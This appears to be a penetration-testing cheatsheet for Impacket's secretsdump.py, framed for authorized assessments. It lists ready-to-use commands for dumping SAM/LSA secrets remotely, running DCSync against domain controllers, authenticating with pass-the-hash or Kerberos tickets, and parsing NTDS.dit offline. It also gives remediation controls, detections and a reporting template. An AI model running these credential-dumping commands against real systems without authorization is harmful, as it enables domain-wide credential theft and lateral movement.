

## TL;DR

`secretsdump.py` is an Impacket tool for extracting credential material from Windows and Active Directory systems during authorized testing. Use it only in labs or approved assessments. The safest workflow is to collect the **minimum proof needed**, target one account or one host when possible, and convert the result into concrete remediation: reduce admin rights, block DCSync abuse, protect LSASS, rotate exposed credentials, and monitor replication events.

| Goal | Command |
|---|---|
| Dump local SAM/LSA remotely | `secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>` |
| Pass-the-Hash auth | `secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| Kerberos auth | `secretsdump.py -k -no-pass <DOMAIN>/<USER>@<TARGET>` |
| DCSync domain hashes | `secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc` |
| DCSync one user | `secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc-user <TARGET_USER>` |
| Offline SAM/LSA | `secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL` |
| Offline NTDS.dit | `secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile ntds_dump` |
| Save output | `secretsdump.py ... -outputfile evidence/secretsdump_<target>` |

---

## What secretsdump.py Does

| Source | What You Can Extract | Typical Permission Needed |
|---|---|---|
| Remote Windows host | Local SAM hashes and LSA Secrets | Local admin on the host |
| Domain Controller via DCSync | Domain account hashes and Kerberos keys | Replication privileges or equivalent |
| Offline registry hives | SAM, SYSTEM, SECURITY secrets | File access to hives |
| Offline NTDS.dit | Domain database hashes and keys | File access to `ntds.dit` and SYSTEM hive |

`secretsdump.py` does not magically bypass permissions. It uses the access you already have: local administrator, backup file access, Kerberos ticket, NTLM hash, or directory replication rights.

---

## Decision Tree



---

## Remote SAM and LSA Secrets

Remote dumping is useful when you have local administrator rights on a single host and need proof of local credential exposure.

```bash
secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>
```

With an NTLM hash:

```bash
secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>
```

Save output to a file:

```bash
secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET> -outputfile evidence/secretsdump_<TARGET>
```

What to report:

| Output | Risk |
|---|---|
| Local administrator hash | Local admin reuse and Pass-the-Hash exposure |
| Cached domain logons | Domain credential residue on endpoints |
| Service account secret | Lateral movement or service takeover |
| DPAPI-related material | Potential access to protected user/application data |

---

## DCSync

DCSync asks a domain controller to replicate secrets as if the operator were another domain controller. It is high impact and should be tightly scoped.

```bash
secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc
```

Prefer a targeted proof when possible:

```bash
secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc-user <TARGET_USER>
```

With Pass-the-Hash:

```bash
secretsdump.py -dc-ip <DC_IP> -hashes :<NTLM> <DOMAIN>/<USER>@<DC_HOST> -just-dc-user <TARGET_USER>
```

With Kerberos:

```bash
KRB5CCNAME=admin.ccache secretsdump.py -k -no-pass -dc-ip <DC_IP> <DOMAIN>/<USER>@<DC_HOST> -just-dc-user <TARGET_USER>
```

DCSync usually requires permissions such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`, often inherited through highly privileged groups or dangerous ACLs.

---

## Offline SAM, SECURITY, SYSTEM Hives

If you have copied registry hives from an authorized lab or forensic image, parse them offline instead of touching a live host again.

```bash
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

Minimum files:

| File | Purpose |
|---|---|
| `SAM` | Local account hashes |
| `SYSTEM` | Boot key needed to decrypt secrets |
| `SECURITY` | LSA Secrets and cached credentials |

---

## Offline NTDS.dit

For domain controller images or approved offline collections, parse `ntds.dit` with the matching `SYSTEM` hive.

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile ntds_dump
```

Keep the raw files and outputs protected. They are sensitive evidence and should be encrypted at rest, access-controlled, and deleted or archived according to the engagement rules.

---

## Authentication Modes

| Mode | Example |
|---|---|
| Password | `secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>` |
| NTLM hash | `secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| LM:NTLM pair | `secretsdump.py -hashes <LM>:<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| Kerberos ccache | `KRB5CCNAME=ticket.ccache secretsdump.py -k -no-pass <DOMAIN>/<USER>@<TARGET>` |
| Local auth | `secretsdump.py ./<LOCAL_USER>:'<PASS>'@<TARGET>` |

---

## Common Errors

| Error / Symptom | Likely Cause | Next Check |
|---|---|---|
| `STATUS_ACCESS_DENIED` | Not local admin or insufficient replication rights | Check group membership and ACL path |
| `rpc_s_access_denied` | Remote registry / service access blocked | Confirm local admin and host firewall policy |
| `KDC_ERR_PREAUTH_FAILED` | Wrong password/hash/ticket context | Recheck domain, user, and ticket cache |
| Empty DCSync result | Not enough replication rights or wrong DC target | Test a single `-just-dc-user` and verify ACLs |
| Hostname resolution failure | DNS or `/etc/hosts` issue | Use `-dc-ip` and a resolvable hostname |

---

## Defensive Notes

| Risk | Defensive Control |
|---|---|
| Local SAM dumping | Remove local admin sprawl, use LAPS/Windows LAPS, restrict remote admin |
| LSA Secrets exposure | Reduce service account reuse and rotate exposed credentials |
| DCSync abuse | Audit replication rights and remove unnecessary `DS-Replication-*` permissions |
| Pass-the-Hash | Limit NTLM, enforce tiering, prevent local admin password reuse |
| Domain controller secret access | Harden DC backups, restrict interactive/admin access, protect `ntds.dit` |

Useful detections include Directory Service Replication events, unusual replication from non-DC hosts, remote service creation, remote registry access, and high-value account credential use from unexpected sources.

---

## Reporting Template

| Field | Example |
|---|---|
| Access used | `CORP\svc_backup` had replication rights |
| Command class | DCSync targeted one user with `-just-dc-user` |
| Proof | Redacted NTLM hash or Kerberos key evidence |
| Impact | Domain credential extraction possible |
| Root cause | Excessive ACL / group membership / local admin rights |
| Remediation | Remove rights, rotate credentials, monitor replication, review tiering |

---

## Related Articles

- [Active Directory Pentest Roadmap](/en/topics/active-directory/)
- [Active Directory Enumeration Checklist](/en/posts/tech-active-directory-enumeration-checklist/)
- [NetExec Commands Cheatsheet](/en/posts/tech-netexec-beginner-guide/)
- [Mimikatz Commands Cheatsheet](/en/posts/tech-mimikatz-guide/)
- [Lateral Movement — OSCP Summary](/en/posts/tech-lateral-movement-guide/)
- [BloodHound Attack Path Cheatsheet](/en/posts/tech-bloodhound-attack-paths/)
- [Kerberos Attack Techniques for OSCP](/en/posts/tech-kerberos-oscp-guide/)

## References

- [Impacket GitHub](https://github.com/fortra/impacket)
- [MITRE ATT&CK: OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
- [MITRE ATT&CK: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [Microsoft: Windows LAPS](https://learn.microsoft.com/windows-server/identity/laps/laps-overview)
